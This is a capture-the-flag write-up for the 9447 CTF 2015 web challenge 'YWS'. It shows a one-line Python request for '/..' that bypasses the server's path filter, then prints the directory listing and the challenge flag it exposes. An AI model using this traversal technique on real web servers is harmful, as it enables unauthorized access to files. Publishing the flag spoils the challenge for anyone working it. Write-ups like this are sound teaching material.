 # 9447 CTF 2015 2015: YWS

**Category:** Web
**Points:** 130
**Solves:** 197
**Description:**

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
> 
> The web page is at <http://yws-fsiqc922.9447.plumbing>
> 
> Hint! Where does the website *not* want you to go?


## Write-up

We poked around a lot at this challenge. Tried several different inputs and URLs. Only
later we realized that we could have looked at the binary of [BWS](/9447-ctf-2015/exploitation/bws)
We realized that there was something funky going on regarding the filtering of the
paths. So after poking around a little bit, I found that the following works:
```
import requests as r
print(r.get("http://yws-fsiqc922.9447.plumbing/..").content)
```
And we got back the directory listing contains the flag.
```
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
[...]
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
[...]
</ul>
<hr>
</body>
</html>
```

Apparently the webserver filtered out `../` but not `..`. We had troubles 
using the browser or curl to fetch this. Probably because they automatically 
append a `/` character or something like that.

## Other write-ups and resources

* <http://blog.jclariviere.com/posts/ctf-writeup-9447-ctf-2015-yws/>
* <https://asciinema.org/a/30881>
* <http://pastebin.com/jzd6DVMu>
